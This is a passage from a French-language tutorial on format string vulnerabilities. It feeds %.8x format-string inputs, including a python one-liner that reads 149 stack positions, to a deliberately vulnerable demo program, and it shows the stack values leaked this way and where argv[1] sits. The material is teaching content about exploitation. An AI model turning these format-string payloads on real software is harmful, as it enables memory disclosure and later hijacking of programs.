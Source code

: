 Que se passe-t'il si l'on passe une chaine de format au programme ?  

```console
oj@hell:~$ ./vuln %.8x
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffcdc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
00000001
#end  a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
Program terminated with success
```

La chaîne de format est interprétée malgré le fait qu'aucun argument supplémentaire ne soit placé dans le code C.  

La fonction `printf` et les autres fonctions de la même famille ne disposent pas d'un paramètre permettant d'indiquer le nombre total de paramètres passés. Dès lors, la fonction aurait du mal à le deviner à votre place, bien que le compilateur puisse afficher des warnings si le nombre de paramètres passés ne correspond pas à la chaîne de format donnée.  

Ici il n'y a pas de chaîne de format hard-codée mais le compilateur peut aussi lever un warning dans ce genre de situation (ces warnings ne sont malheureusement pas activés par défaut).  

Où sont cherchées les valeurs que le programme affiche lorsqu'on lui passe une chaîne de format ? Tout simplement sur la pile où sont stockées les variables locales, etc.  

```console
oj@hell:~$ ./vuln "%.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x, %.8x"
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffc8c
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffc88, y=0xbffffc84, z=0xbffffc80
00000001, 00000002, 00000003, bffffc88, bffffc84, bffffc80, 0804862b, 00000003, 00000002, 00000001, 0804847c, bffffc8c, bffffc80, bffffc84, bffffc88, 080485e0
#end  a=1, b=2, c=3 - x=0xbffffc88, y=0xbffffc84, z=0xbffffc80
Program terminated with success
```

On retrouve ici dans l'ordre nos variables `a`, `b`, `c` et leurs pointeurs `x`, `y` et `z` (positions 1 à 6).  

Plus loin en 12ème position se trouve le pointeur sur pointeur sur fonction.  

Notez que par rapport aux précédentes exécutions les adresses de nos variables sur la pile ont changé en raison de la taille de `argv` qui a augmenté (sur la base de la pile se trouvent les variables d’environnement puis `argv` puis ensuite les variables locales, etc).  

Si on fouille plus loin on retrouve `argv[1]` sur la pile, ici en position 131 (`AAAA` = `0x41414141` en hexadécimal).  

```console
oj@hell:~$ ./vuln AAAA`python -c 'print ",".join(["#{0}:%.8x".format(x) for x in xrange(1,150)])'`
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffff77c
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffff778, y=0xbffff774, z=0xbffff770
AAAA#1:00000001,#2:00000002,#3:00000003,#4:bffff778, --- snip --- ,#130:006e6c75,#131:41414141,#132:253a3123,#133:2c78382e,#134:253a3223,#135:2c78382e,#136:253a3323,#137:2c78382e,#138:253a3423,#139:2c78382e,#140:253a3523,#141:2c78382e,#142:253a3623,#143:2c78382e,#144:253a3723,#145:2c78382e,#146:253a3823,#147:2c78382e,#148:253a3923,#149:2c78382e
#end  a=1, b=2, c=3 - x=0xbffff778, y=0xbffff774, z=0xbffff770
Program terminated with success
```
